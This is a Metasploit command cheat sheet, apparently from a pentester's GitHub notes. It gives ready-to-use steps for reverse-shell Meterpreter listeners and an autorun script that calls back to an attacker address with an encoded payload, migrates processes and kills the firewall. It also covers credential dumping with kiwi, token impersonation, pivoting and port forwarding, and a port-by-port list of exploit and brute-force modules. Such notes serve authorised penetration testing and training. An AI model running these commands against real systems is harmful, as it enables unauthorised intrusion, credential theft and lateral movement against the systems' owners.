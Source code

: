 # MSFConsole
#### Start metasploit
- The correct way

```
systemctl start postgresql
sudo msfdb init #only the first time!
sudo msfdb start
sudo msfdb run #start both db and msfconsole
sudo msfconsole
```

#### Start listener
```
use multi/handler
set payload windows/meterpreter/reverse_tcp
```

#### Background the sessions
```
Background
```

#### List sessions
```
sessions
```

#### Kill session
```
sessions -k <id>
```

#### Enter sessions
```
sessions -i <id>
```

#### Load kiwi module to dump creds and print help for kiwi
```
load kiwi
help kiwi
```

#### Load PowerShell and drop into shell
```
load powershell
powershell_shell
```

#### Metasploit imperssonate
```
Load incognito
list_tokens -g
impersonate_token "BUILTIN\Administrators"
```

#### Upgrade shell to meterpreter
```
use multi/manage/shell_to_meterpreter
set SESSION
set LHOST
set LPORT
run
```

## Routing
#### Set route
```
route add <subnet / host ip> <subnetmask> <session id>
```

#### Autoroute modulle
```
use multi/manage/autoroute
```

#### Run autoroute
```
run autoroute -s 10.100.11.0/24
```

#### Create port forward
```
Portfwd add -l <LOCAL PORT> -p <REMOTE PORT> -r <REMOTE HOST>
```

#### After setting routes use bind shells

#### Proxychains
```
use server/socks_proxy
set SRVHOST 127.0.0.1
set SRVPORT 9000
set VERSION 4a
```

## Autorun script
### Set solo module as autorunscript
```
set AutoRunScript windows/gather/enum_logged_on_users
set AutoRunScript post/windows/manage/migrate
```

#### Create a .rc file and use it like:
```
run post/windows/manage/migrate
run post/windows/manage/killfw
run post/windows/gather/checkvm
```

```
set AutoRunScript multi_console_command -rc /root/autoruncommands.rc
```

## Metasploit automation run automatic script
#### Create a .rc file
```
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 10.11.0.4
set LPORT 443
set EnableStageEncoding true
set StageEncoder x86/shikata_ga_nai
set AutoRunScript post/windows/manage/migrate
set ExitOnSession false
exploit -j -z
```

#### Start metasploit with .rc file
```
sudo msfconsole -r setup.rc
```

## Sessions

- Interact with sessions
`sessions -i <id>`

- Save sessionn
`sessions -u <filename>`

- Restore session
`sessions -r <filename>`

- Set module's RHOST with databse values
`hosts -R or services -R`

- Set global variable
`setg RHOSTS x.x.x.x`

- Upgrade shell to meterpreter
`sessions -u <session_id>`

- Run and background
`exploit -z`


## PORTS

- 21 FTP
`exploit/unix/ftp/vsftpd_234_backdoor`
`auxiliary/scanner/ftp/ftp_login`

- 22 SSH
`auxiliary/scanner/ssh/ssh_login`

- 23 TELNET
`auxiliary/scanner/telnet/telnet_login`

- 25 SMTP
`auxiliary/scanner/smtp/smtp_enum`

- 80 HTTP
`auxiliary/scanner/http/http_version`
`exploit/multi/http/php_cgi_arg_injection`

- 139,445 SMB
`auxiliary/scanner/smb/smb_version`
`exploit/multi/samba/usermap_script`

- 512,513,514 exec,login,tcpwrapped
`rsh-client (rlogin -l root <ip>)`
`rsh -l <ip> ifconfig`

